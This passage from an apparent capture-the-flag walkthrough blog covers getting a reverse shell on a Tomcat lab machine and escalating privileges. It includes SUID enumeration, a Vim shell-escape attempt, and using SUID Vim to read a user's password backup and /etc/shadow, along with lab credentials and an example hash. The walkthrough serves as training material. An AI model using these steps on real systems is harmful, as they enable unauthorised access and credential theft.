graphical interface such as Vim, while the Python reverse shell allows for this interaction to happen. As a consquence, the Python reverse shell command is obviously more lengthy and complex than the Bash reverse shell command, meaning we have to be more careful when typing it out to be sent through the exploit. We don't want to send incorrectly unescaped characters to the XML parser.
Even though I said that the presence of Python in our target was probably a given, I still wanted to be sure we would be able to get the Python reverse shell. So instead of immediately going for the reverse shell command on the exploit I decided to go with something simpler to check for the correct functioning of the Python program on the target. Safety measures in case we had a 'what if' situation in our hands. The image below shows a simple one line Python command I executed on my own terminal. This command is small, opens no terminal interfaces that need to be exited (which in our RCE situation, would cause wget to never be executed, as we wouldn't be able to leave the interface we had just entered, since we cannot send a Ctrl+C to the same session to end its execution), and exits with a certain success result code when Python exists on the system. Therefore, it is the perfect example to be used as a first command in our exploit schema.
By using this Python command together with our wget command in the exploit, we are able to confirm if the Python program exits and can be successfully executed by the current user in the target system. The images below show the exploit command that was used to achieved this, followed by the positive result we obtained from it. So, success! It works! We can finally get our reverse shell.
 I am not ashamed to admit that I do not know the Python command to get a reverse shell by heart. I never really took the time to stamp it to my mind because I usually search for those commands on the internet. Therefore, for this challenge I used this Reverse Shell Cheatsheet Github repository as a reference to get the one line command that would provide me with the reverse shell I needed. I think it is a very interesting resource for ethical hackers and pentesters (or people aiming to become them), and that's why I decided to mention it here. I take no credit for this repository, and encourage you to check it our for yourself, as you can learn more about the various ways to get a reverse shell, as the repository presents you with the commands you can use considering various programming languages and softwares. Do note, however, that you usually need to edit the command for it to work properly with you own system, usually changing the IP address and port that are used in the 'default versions' given by the repository source. You want the target to connect to your machine on the port you are listening on, and I can tell you with a lot of certainty that these will not always be 10.0.0.1 and 4242. With that being said, another important thing I had to do to correctly prepare the reverse shell command was to escape all XML characters that needed escaping. However, this time, instad of doing it manually, I decided to use a tool that would do it for me, as the Python reverse shell command has a lot more that I need to escape instead of just &&. The image below shows the website I used to perform this conversion for me.

The resulting command presented to me after I used the tool shown in the image above was the command I used to get the reverse shell, as per the next image.
So, before we move on, let's get a little meta here, because I just realized that I unfortunately took a print screen of my terminal that cut out the last letters for the first two lines of the command...oooops. There should be a k at the end of the first line and an r at the end of the second. I apologize for that little mishap and for this unecessary text I had to add to the blog post to correct it. But better we talk about it than we leave it unmentioned and some poor soul reading this blog post is questioning themselves 'WHEEEERE IS THE k????? WHY WAS IT NOT OMITTED IN THE XML CONVERSION, BUT IT WAS IN THE TERMINAL COMMAND? I DON'T UNDERSTAND!'. I talk about this poor soul because I have already been a poor soul in a similar situation. So there you have it, it was a mistake. My bad. Let's move on now.
I know what the people want now. Did it work out? Did I get the reverse shell? Well...you should know by now that I probably wouldn't be writing this post if I hadn't, so rejoice as I present to you, the next image.
It is a very satisfying feeling to see Netcat telling you that you got a connection in the port you are listening to. I got figurative goosebumps when I saw that tomcat9@basic2$ prompt even if we are the very awful user tomcat9, which will most likely have no interesting permissions on the system. But fear not, we are in, and now, all we need to do is find the stairs that will take us to that roottop with a view (yes, yes, I am very punny). In other words, it is time to do some privilege escalation.
As I mentioned before, the Tomcat user usually is a user that has very low privileges in a system. This makes sense especially if you are aiming to have a secure system: don't provide users/entities with more permissions than the bare minimum they need to perform their tasks. By doing this, you avoid a situation where these unecessary and sometimes more lenient permissions are exploited by someone, a hacker or even the user/entity itself, who won't perform the well known set of bare minimum actions you expect them to, and will use said permissions to extract more from the system. Sometimes this is not even a directly malicious action, but the enhanced permissions allow for a user, for example, to accidentally delete a critical file that is what keeps the cogs in the system running smoothly. You system comes crashing down because you didn't want to remove that chmod 777 from said file. Alternatively, in the situation that we have now, we, as hackers were able to get into the system with the tomcat9 user, so we want to abuse poorly configured permissions maliciously (but of course, all in good fun, as this is a challenge that allows us to act in such a way in the target system). The server maintainer expects the Tomcat user to only perform operations that involve the configuration and management of Tomcat apps and the Tomcat server software itself, however, we don't really care about Tomcat anymore, and, even if a restricted set of actions is expected to be performed by this 'automatic user', the user itself is still a user in the system, meaning that, should it be allowed to, it can perform the same operations as other users would. What I am trying to say here is: just because the Tomcat user is essentially a 'robot user', it doesn't mean that it doesn't have feelings. Wait. No. Let's try that again: just because the Tomcat user is essentially a 'robot user', it doesn't mean it can only access/operate that what it was set to access/operate through the Tomcat software (this is the software that uses tomcat9 in order to access necessary files and execute necessary routines). If someone else takes control of the robot and decides to use its carcass as a disguise, the robot will essentially do what the person pretending to be it would do. And that means, its behavior might deviate from what you expected. If you consider a world where that is an actual possibility and configure you system to restritct the tomcat9 user to be allowed to do only that which it was programmed to do, believe you me, you are in a much better place than someone that assumes no one will ever log on as tomcat9 because it is a system user, so it's all good. But before we even exploit poorly configured permissions for this user in the system, we must first know what we actually are allowed to do. Income, enumeration.
In my other blog post regarding this challenge machine, which I barely mention here, I talk about a few simple enumeration techniques I use when I get initial access to a system. That includes just navigating through directories to check out files that I might be able to read or edit, as well as checking out sudo permissions for the user I am currently. So, once again, I began my enumeration process here by doing just that, and by using a few Linux commands such as id that give us general information which can be useful in the future or even to establish our next moves. For example, the result for the id command shows that tomcat9 only belongs to a group in the system that has the same name as the user itself (the default group given to a new user, which is that user's group). That means, most likely, that this user won't have any default sudo permissions, and will not be able to execute something as a sudo user when you consider the default configuration for sudo. You usually need to belong to a group called sudo (or sometimes wheel) to have such privileges, default settings set. Of course we could have sudo configured differently for this system, meaning somehow the tomcat9 group is allowed in the sudoers file to perform specific sudo actions. What would allow us to get that information in order for us to go beyond considerations of only what is default? Enumeration. Here, I can tell you that sudo will take us nowhere with the Tomcat user, especially because we don't know the user's password. So I won't really go down that path. However, I can tell you, that cheking out the system files did give us some interesting loot. By checking out the home directory, we are able to learn about the other users in the system: jan and kay. We already know from a previous enumeration that user jan, which is most likely the user associated to J, has a weak password, so maybe one way to escalate privileges, is to first move lateraly and become that user. User jan most likely has more permissions than tomcat9, as he apparently belongs to the development team. He must need to perform a few interesting operations in the system to be able to achieve his goals as a developer. So, just to be thorough, I will present a few images below with some of the results of the enumeration I performed. I will comment on them but I won't be too detailed because the keys to the kingdom lies elsewhere. It lie in a promise I made in my other blog post that I must still deliver. So I present to you, a quick trip down enumeration lane.
As I said, and the image above confirms, the sudo path to privilege escalation is not looking all that promising here. In the first post of this series we were able to easily and quickly exploit sudo privileges with another user to get to a root shell. I won't spoil that too much for you, even though I have made abundantly clear that you should read that post way before you even get to this point on this post.
The image above just shows me casually cheking out some directories in the machine. Hello, jan and kay.
The information from the previous image could've also been obtained by cheking out the /etc/passwd file. This file is usually world readable in Linux systems, and here in the target machine it was no different. We even used the operation of reading this file when we were testing out the exploit, remember? The difference is that now we have more than just an RCE that does not return the command result, and we can see the output of executing a cat command over this same file. Once again, hello jan and kay.
 I also took the opportunity that we were the tomcat9 user to try to figure out the credentials to the management interface for the Tomcat web page. Tomcat in its default configurations is so kind to tell us in which file this information can be extracted whenever we perform a failed login attempt to said interface through the browser, as shown by the first image above. The second image above, which presents the contents of the said file, show us that the credentials for the Tomcat management interface are tomcat1:changethistomcatpasslater. The tomcat9 user in the Linux system is not the same user as the tomcat1 user the Tomcat software recognizes as the manager of Tomcat through the web app. The former is the user used by the Tomcat software/program running in the Linux machine, while the second one is a user you 'registered' in order to be able to access the Tomcat software through the management interface provided by the Tomcat web page, in order to be able to request it to perform varied operations. So, once again, but maybe in simple terms: tomcat9 is a Linux user for Tomcat, and tomcat1 is a Tomcat user for you. Each user is authenticated by different programs, one being the OS itself, and the other being the Tomcat server software. That being said, it is not unusual for passwords to be repeated/reused across different user accounts for the same user or even different users in the same system (I mean...who never set their root password the same as their regular user password? Don't be shy. I'll even admit I've done it myself in the past.), so I tried this password for the tomcat9 user account. Unfortunately, it didn't work. Just to finish off the paragraph analysing the two images above, you might be wondering how I knew in which directory I would find the file tomcat-users.xml. The Tomcat error page itself doesn't give you the entire path for the file. It does, however, hint at it being in the Tomcat installation directory. It is very common to have non-native Linux OS programs, meaning, programs that don't come installed by default with the system, be installed in the /opt directory, as it was created with the purpose to store exactly these types of files. So, I began my search there. However, since you already know the name of the file you want, you could've also easily found it by using a find command. This command allows you to locate files in the system by name. You also can always take the brute force path and check all files and directories you are allowed to. One by one. Annoying but it would yield results in this case.
To end this initial enumeration saga, I present to you the image above, which is our accessing of kay's .ssh directory in his home file. If you remember correctly from reading the first blog post I made with an alternative walkthrough for this challenge, these files are not configured with the correct permissions, and we are easily able to get kay's private key from the id_rsa file for remote access with this user through the SSH port. So, at this point, you could once again take that route, login as kay and claim root the same way we did last time. However, let's not be boring and learn a bit more from this experience, shall we?
With that being said, I can finally come through with my long overdue promise and finally introduce you to the last basic enumeration technique I use when I get initial remote access to a Linux system whenever I am doing a hacking challenge such as this one. Drumroll pleeeeease: I look for SUID binaries. So, before we get into the discovering the SUID binaries in the target machine, basic2. Let's first talk about what is SUID. First things first, just to make everything absolutely clear, SUID binaries = SUID executable files = SUID programs. We are, therefore, looking for programs in the system which have the SUID characteristic. The SUID characteristic is actually associated to permissions. Therefore, to once again say it in a prettier way, we are looking for files that have SUID permission, which can also be called files that have the special permission associated to the file owner set. Right about now you might be wondering what is this magical special permission, considering that we usually only have three permissions associated to a file: read, write and execute. You of course read my other blog post in which I briefly talked about how permissions work, so I don't need to talk about that all over again here. However, since I used the word briefly, I would like to fix that here and go into a little more detail on how the r, w, x permissions for a file work, especially because you will need that information to understand what a SUID permission is. So, let's start with a simple summary: every file and directory in Linux has three sets of permissions associated to them as previously mentioned. These three permissions, however, can be associated to three different entities for each file: the file owner, the file group and all other users. Therefore, a file might be readable by the file owner but not by the file group and all other users in the system, for example, should you consider these two layers of permissioning we have for Linux systems. Read, write and execute permissions for each entity on a file/resource are represented by letters r, w and x, respectively, should the permission be active for said entity, and by a hifen should it be inactive. Once again giving an example, the string rwxr-x--- represents file permissions which allow a file to be read, modified and executed by file the owner, his/her permissions represented by the first three characters in the string; read and executed, but not modified/written to, by the group designated to the file, said permissions represented by the three middle characters of the string; and finally, not read, modified or executed by all other users in the system, as shown by the last three hifens in the string. Should the example have made things clear for you, let's now take it up a notch and complicate this representation a little bit more. We have three triples. For each one of these triples, we have three permissions, which can essentialy assume two different values: set, or not set. So, instead of representing each permission for a triple with a specific letter, we could instead all agree that the first element in the triple represents read, the second represents write and the third represents execute, and each can assume the value set or notset. So, for the previous example, the file owner's permissions in this format would be set set set while the file group's permission would be set notset set, and the permissions for all other users would be notset notset notset. If you know the first value for each triple represents reading permissions, the second represents writing permissions and the last represents execution permissions, as you know that the first triple represents the file owner, the second represents the file group and the third represents all other users, reading and understanding the following shouldn't be all that difficult: set set set set notset set notset notset notset. You know how the information is organized, so you can interpret it, even if it doesn't look as friendly as rwxr-x---. However, using full on words to represent something as simple as this is kind of annoying. So, let us consider the following switch: set is now represented by value 1 whilst not set is represented by value 0. The file owner's permissions are now 111. If we look at this as a binary number, we can also simplify it even more and say that the file owner's permission for said file is 7, since 111 equals to 7 in binary format. For the file group, we would have permissions 101, which is binary for 5. Finally, for all other users, permissions would be 000, an easy jump from binary to decimal, as nothing in binary is also nothing in decimal meaning 000 = 0. Therefore, we have that the rwxr-x--- permissions for our example file can be written as 750. Previously in this post I mentioned the chmod command being used with argument 777. This command allows you to change the permissions for a file. With everything I said here regarding permissions, should you not already know how these work, you can now know what permission 777 is. However, considering all permission bits are already assigned a possible permission type (read, write or execute), what is this 'special' permission we were talking about when mentioning SUID files, and how is it incorporated to this representation? To answer this question, let's first define what is a SUID permission: when we talk about special permissions regarding a file, we have 3 different possibilities to consider. When the special permission is associated to the file owner, when it is associated to the file group and when it is associated to all other users. Therefore, the 'special' permission is like a hidden fourth bit associated with each triple of permissions (which...no longer can be seen as a triple since we now have 4 permissions in each group, but for simplicity I will keep calling them triples for the rest of this post. The 'special' bit is supposed to be 'invisible' anyway...so...visually, whatever that means, it is still a triple. Ok, I will stop trying to give weird explanations now to justify my word choices. Let's move forward). When this special permission is set in the file owner triple, we have a file with SUID permissions. For the special bit set in the file group triple, we have an SGID file and for the all users triple the special bit is called the 'sticky bit'. I won't, however, go into detail regarding SGID and sticky bits, so let's just focus on SUID. A file which has the SUID permission bit set will always be executed with the file owner's privileges, meaning, you get to execute said file, no matter what user you are, as if you were logged in to the file owner's system account. This means what, exactly? Consider you have a program that wants to read a file that is owned by root. This file has reading permissions set only for the file owner, meaning that if you execute this program as any other user that is not root, you won't be able to read the file. When root executes the program, it gets to read the file, because the program executes with root's privilges. However, consider that the program (which is a file in itself) is owned by root, just like the file you want to read. The permissions for the program until this point has allowed you to execute it. Should the permissions for the program be changed to have the SUID bit set, you will be able not only to execute the program, but you will be able to do it as if you were root, meaning you now can read the file you once wanted to read, but couldn't when executing the program with your own low privilege user. See how that can be a security problem? You now can do everything this program allows you to do as the root user. If you have write permissions over the program file in order to edit source code, you can even change the code to get yourself a root shell, for example. Danger! So, when the SUID permission for a file is set, instead of having the regular x permission on the first triple, you will see an s instead. So, for our previous permission string example, rwxr-x---, should we have SUID permissions over the file, this string would be, instead, rwsr-x---. When we are talking about the number notation for this permission, it is the same as adding a 4 before the numerical representation of what would be regular permissions. So, for rwsr-x---, we have that the numerical equivalent is 4750. Why is this so? When we were talking about the individual triples, we had 3 possible bits to set or unset in order to establish permissions. When only the reading bit is set 100 is the binary equivalent for it. Number 100 in binary is 4 in decimal. Now, let's zoom out and stop looking at the small triples, and let's look at the big triple: the file owner, the file group and all other users. We have for the whole permission system a triple of triples. The most external triple is associated to the entities which we want to attribute permissions to. Consider you want to only represent, numerically and in binary format, the first external triple of the three, meaning the file owner. You can use the same representation as you would to set a read permission to any of these entities, using 100 = 4. This, for our external triples, means that only the file owner entity is 'set'. What does it mean, however, to be 'set'? Well, you can consider that the file owner being set in the external triple, means that it has the special permission activated. This means 100 = 4 = SUID. That is why a 4 put in front of the regular numerical representation for permissions is what represents the SUID permission as set, since SUID is exclusively related to the file owner. Should you want SUID and SGID permissions set instead of just SUID, 100 becomes 110 = 6, and the complete numerical permissions for the file become 6750, considering the example. Therefore, the first digit in the 4 number representation format for permissions is associated to the 'external triple', and its value will indicate whether the special bit is set or not for each entity associated to the file permission schema. So, after many and many lines of explaining, that is what SUID is. I hope you were able to understand it a little bit better from my explanation. Before we move on, however, I would like to add another important bit of information: do note that SUID is not associated to execution with the root user necessarily. I used root as an example to show how this can be dangerous. However, should the file owner not be root, then SUID will only allow you to go as far as the file owner's permissions in the system. When we are talking, however, of getting privileged access to a system as the root user, finding files that are executable and owned by root and have the SUID bit set is an interesting way to try to fool the system into letting you act as root and maybe even giving you a root shell, no matter the low privileges your current user might have.
Hopefully I have made it clear why looking for SUID binaries in a system is a good way to possibly get a root shell. Not all executable programs will perform operations that interest us and lead us to root. I mean, if you have a root owned program with SUID set, but all the program does is print 'Hello World!' to the terminal, it doesn't really matter the privileges you execute it with. However, if we do have a program that allows us to read files as if we were the root user, we then have a much more interesting situation. We can read the contents of /etc/shadow, for example, which is the file that contains information on user passwords (the hashed version) for the system. I wonder if we might find something of the sort in this machine...For that, let's enumerate and find all files in the system that have the SUID bit set. To do that I used the following command:
tomcat9@basic2$ find / -perm /4000
Before I present you with the results, let's take a look at what all of this means. The find program in Linux systems allows you to find specific files in said Linux system. The first argument I gave the command is the /. This argument is telling find to start looking for whatever I am going to ask it to look for starting from the beginning of the file system, the / directory. Should I want to look for file only under kay's home directory, for example, I could've switched this up to /home/kay. Either way, this is telling the program where to start its search from. I want all files to be checked for SUID permissions, therefore I ask it to begin the search right at the top. Followed by that we have option -perm, which takes one argument, in this case /4000. Let's first, however, talk about the option itself. The -perm option establishes that we will be looking for files in the system with a specific set of permissions, permissions that match the argument format. For our command, the argument is /4000. We are looking for files with the SUID bit set. One would think that we are looking for the SUID bit set with all other permissions unset, but that is not the case. Since we have the slash preceding the sought after permissions, it means that we are actually looking for files that have any of the permissions considered set for the file. This is the same as using an OR clause in a code. As we are only considering one permission for this example, we don't need to actually apply the ORs: find will locate all files that have at least the SUID permission set. However, should we want to locate files that have SUID OR the read permission for the file group, we could change this argument to /4040. All files that have one permission or the other set will be presented on the ouput. I once again won't go into much detail when talking about this command or else this post will be larger than it already is. I will, however, leave a link for a resource I find very interesting for those wanting to understand what a command in a shell does. It's called explainshell and it can be accessed thorugh this link. This website allows you to input a shell command, and, after you do it, parses it in order to show you the relevant explanations on what each part of the command is doing. Pretty cool. Do check it out should you have the time.
Anyway...FINALLY. There it is. The output for the execution of the SUID command in the target machine.
 As you can see in the first image above, after executing the command, there were a few files which I was not able to verify the permissions for, as I couldn't access the directories for these files as the tomcat9 user. Unfortunately, permissions affect even our search for permissions. However, do not let that discourage you, since in the second image, as shown by the big red rectangle, we were able to find a few root owned executable files that have the permission we want set. When looking for SUID files for privilege escalation , the /usr/bin directory is always a nice one to look at. Why? Files in this directory will contain basic system executables (default for the OS installation) that are usually owned by the root user. This directory is also accessible by all, as it contains the executable files for binaries all users are allowed to execute (on a default scenario), such as ping and cat, for example. It being accessible means that we can check permissions for these executable files and we can also execute them as root should SUID be set for them. In this list I already see a program that calls my attention immediately, which is vim.basic. Vim is a text editor, which means we can use it to read and modify files. Since SUID is set for Vim, it also means we can read and modify files that might be only accessible to root. Another thing that makes SUID Vim attractive to the hacker mind is the fact that Vim allows for the execution of shell commands within its interface. We can try to spawn a new shell from Vim, maybe even a root shell since we get to execute it as that user. That is, therefore, the first thing I tried. I opened Vim and tried to execute a shell from within it in an attempt to get a root shell from this. Getting a shell from Vim can be accomplished by usage of the following commands, in Vim control mode: :set shell=/bin/bash, followed by the simple string shell on a new command instance. My attempt to escalate my shell, however, miserably failed (that's why I'm not even bothering all that much to present related images), with the spawned shell being associated to the tomcat9 user, even after coming from a SUID Vim. By reading a little bit more about it, I figured out that to avoid these kinds of exploits, there are implementations of shells by applications that drop the privileges for the shell once it is invoked. This means that it drops the privileges, if necessary, to match the ones of the current user, which in this case, is not the same as the SUID user. Inherited permisions are dropped. Therefore, our attempt to get a root shell cannot happen this way. However, it does not mean that the SUID permission for Vim is invalidated or is no longer of use to us. As I said, we can still try to read an edit files as root, and that means we can try to edit some configuration files that might give us the access we need.
SUID Vim means that we can read files as the root user, as well as modify these files. Most of the basic Linux configuration files in a system, if not all of them, are owned by root, meaning we have a lot of power on our hands when it comes to using Vim with the SUID bit set, as we can edit basic Linux configurations files that will affect the behavior of the system should they be altered in the correct way. More than reading and modifying basic Linux files, root has the privilege to read all files in the system, including possibly files that are owned by users jan and kay in our challenge machine. Now we start seeing the problems of having such a powerful user as root in the system. It doesn't matter if a user owns a file and sets all permissions to null to try to avoid any and everyone from reading or editing said file, as root will always be above that. That being said, if you read my first post exploring the solution for this challenge, you might remember that there was a very interesting file in user kay's home directory called pass.bak. As I already mentioned in this other post, this file name hints at a password backup file, meaning we might be able to get user kay's credentials through it. We won't be able to log in through SSH through this user's account, as kay uses the public-private key method to get remote access through SSH, but we can elevate our own privileges to kay's privileges in our reverse shell should we discover his internal password. Considering the permissions for this file are also restricted in order to only allow the file owner to read and modify the file, it is a very good candidate to test out SUID Vim and verify if it truly works. Therefore, all I did was run Vim giving it the /home/kay/pass.bak file as an argument, meaning, I asked Vim to open this file for me so that I could read it or edit it. The result can be seen in the image below.
So there you have it. I blurred out the password in order to maybe inspire you to try all of this out yourself instead of using the results you find here to speedrun the challenge, but trust me, beneath the blur is the password for user kay, meaning that the SUID bit associated to the Vim permissions has allowed us to execute Vim with root's privileges, which in turn allowed us to open a file we normally, as tomcat9, wouldn't be able to. With great power comes great responsibility, and now the big question was: what file can we possibly edit in order to get the root shell we so desire? My first thought was to achieve this by checking out the contents of file /etc/shadow which, as I have previously stated, contains information for users in the system and their passwords. Because of the sensitivity associated to the contents of this file, we, as the regular unprivileged user tomcat9 can't read it or edit it. This file is owned by user root and belongs to file group shadow. Permissions associated to it are the following: rw-r-----. This essentially means that only the root user in the system is ever able to edit that file. Members of the shadow group can read it as well, but that's about it. We, however, when using Vim, temporarily are granted root's privileges for execution of the program. That means we can most likely read and edit the contents of /etc/shadow should we use Vim to do so. So that was my next move, and it worked out, as proven by the image below.
Unfortunately for me, the reverse shell I had to work with wasn't allowing me to do too much on Vim, and I didn't have the freedom to check out the last lines of the file by simply scrolling down with the use of the 'down' arrow key. However, Vim is a program that reinforces the idea of using letters and special characters on the keyboard only to get your task done. Therefore, it is possible to jump to a line in a file by entering control mode (press the Esc key) and they typing :[line-number]. I didn't know where the information I wanted was on the file. I wanted to be able to read the entire file and maybe get the password hash for a few of the users, such as user jan, since I already knew what kay's password was, and I also knew that jan's password hash could be easily cracked (information we gathered during the enumeration phases of the challenge). Because /etc/shadow tends to not be a very extensive file, and because I, in that moment, only wanted to check out the end of the file, I used command :1000, which I was pretty certain would take me to the last line of the file, which was some line with line number smaller than 1000.
As shown by the image above, we are able to successfully reach the end of the file through this technique, getting information on users jan, kay and tomcat9. And before we go into the final step of this whole operation, let's talk about the /etc/shadow file for a moment and what exactly we are looking at here. First things first, let's talk about the /etc/shadow file itself, its purpose and its format. The /etc/shadow file is like a database file that stores information about users in a Linux system. Together with /etc/passwd, this file is used by the system as one of the ways to authenticate users that want to log into it. Each line in the /etc/shadow file represents an entry to this database, and each one of the 9 information fields associated to this entry is separated from the other by a colon in that entry's line. So, consider the following example for an entry in the /etc/shadow file:
mossoctopus:$6$Tg4l9$VpCDIfsHU.rJ4CSIavuGfGpul0IMFwQjFWPzEQcz3pdmGb7d/zeckaa4q1E.iAnI2J7s7PjIrcwWUBApgQPVs.:17736:0:99999:7:::
Let's now check out what each field means for this entry.
So there you have it. All fields in the /etc/shadow file explained, so that you to can realize that the only fields that will matter for us in this challenge are the first two. Still, it's good information to have. As is the next little bit of Linux mechanic gem I will present to you. To understand what we are going to do with all of this information that we just gathered, not only do you need to understand what are the fields in the /etc/shadow file, but you need to understand what is its purpose, how it is used when a new user is added to the system, and how it is referenced when a user wants to log in. Therefore, let's dig in.
When you want to add a new user to a Linux system, it is very likely that you use the command useradd [user-name]. For the sake of simplicity here, let's consider the username mossoctopus. Using this command is the easiest and friendliest way to add a new user to a system. Do note, however, that this method is simply an interface that allows you to not have to edit a bunch of files and know a bunch of different file formats and syntax in order to do something as simple as including a new user into the system. Linux tries to make your life easier by making the process transparent. However, should you want to add a user manually, the try hard way, to a system, you can simply do what useradd does behind the curtains. What is that exactly though? Let us once again create a list to set the step-by-step of creating a new user from scratch in Linux.
